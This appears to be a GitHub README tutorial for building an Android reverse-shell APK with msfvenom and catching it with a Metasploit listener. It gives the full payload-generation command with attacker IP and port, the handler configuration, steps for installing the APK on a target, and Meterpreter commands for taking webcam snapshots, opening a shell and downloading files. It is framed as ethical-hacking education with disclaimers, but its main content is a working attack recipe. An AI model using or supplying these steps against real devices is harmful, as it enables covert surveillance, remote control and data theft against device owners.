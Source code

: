 # Android Reverse Shell: Meterpreter Control

## 📌 Description  
This project demonstrates how to create an **Android reverse shell** using `msfvenom` and **Metasploit**. The generated APK allows an attacker to gain remote control of the target device when executed.

⚠️ **Disclaimer:** This project is for **educational and ethical hacking purposes only**. Unauthorized use is illegal. Only test in a controlled environment with permission.

---

## 🛠 Test Environment  
This project has been tested on the following setup:  

| Component            | Details                               |
|----------------------|---------------------------------------|
| **Attacker Machine** | Kali Linux 2024.1 (Virtual Machine)  |
| **Target Device**    | Android 10 (Emulator & Physical)     |
| **Metasploit Version** | v6.3.10                            |
| **Network Setup**    | Local Network (LAN)                  |
| **Testing Emulator** | Genymotion & Android Studio Emulator |

---

## 🚀 Steps to Set Up and Execute  

### **Step 1: Generate the Reverse Shell APK**  
Open a terminal and run:  
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.69.129 LPORT=4444 -o malicious.apk
```
- `-p android/meterpreter/reverse_tcp` → Specifies the payload for Android.  
- `LHOST=192.168.69.129` → Your attacker's IP address.  
- `LPORT=4444` → Listening port for the reverse connection.  
- `-o malicious.apk` → Saves the APK file.  

---

### **Step 2: Setup Metasploit Listener**  
Launch `msfconsole`:  
```bash
msfconsole -q
```
Then configure the listener:  
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.69.129
set LPORT 4444
exploit
```
- `use exploit/multi/handler` → Enables the Metasploit listener.  
- `set payload android/meterpreter/reverse_tcp` → Matches the APK payload.  
- `set LHOST` and `set LPORT` → Ensure they match the payload settings.  
- `exploit` → Starts listening for incoming connections.  

---

### **Step 3: Install and Execute the APK on Target Device**  
- Transfer `malicious.apk` to the target device.  
- Install it manually (`adb install malicious.apk` or direct installation).  
- Once opened, the device will connect back to the attacker's machine.  

---

### **Step 4: Gain Meterpreter Access**  
Once the target device executes the APK, you’ll get a **Meterpreter session**:  
```bash
meterpreter >
```
Now, you can execute various commands:  
- `sysinfo` → Get device information.  
- `webcam_snap` → Take a snapshot using the front camera.  
- `shell` → Open a command shell on the device.  
- `download <file>` → Download a file from the target device.
  
---

## ⚠️ Legal Disclaimer  
This project is intended for **ethical hacking and penetration testing** only. **Unauthorized use is strictly prohibited.**  

---

🔗 **Follow for more security research and ethical hacking projects!** 🚀

